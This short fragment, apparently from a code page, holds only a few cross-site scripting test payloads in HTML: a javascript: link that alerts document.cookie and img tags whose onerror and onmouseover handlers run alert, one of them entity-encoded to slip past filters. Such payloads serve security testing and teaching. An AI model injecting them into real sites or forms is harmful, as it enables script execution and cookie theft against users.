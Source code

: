 
<a href="javascript:alert(document.cookie)"><img align="left" width="100" height="100" src="http://www.fillmurray.com/100/100"></a>

<IMG SRC=# onmouseover="alert('xxs')">

<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
